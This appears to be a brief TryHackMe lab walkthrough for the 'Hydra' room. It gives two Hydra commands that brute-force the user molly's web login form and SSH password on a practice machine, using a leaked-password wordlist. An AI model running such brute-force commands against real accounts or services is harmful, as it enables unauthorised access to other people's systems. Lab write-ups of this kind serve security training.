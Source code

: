 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

## **Walkthrough**

**Use Hydra to brute force molly's web password. What is flag 1?**

Opened up the webconsole and tried entering the credentials to see what the request would look like. We can see the failed login attempt message and the fields used for login which we can used to craft our hydra command.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

```
hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V
```
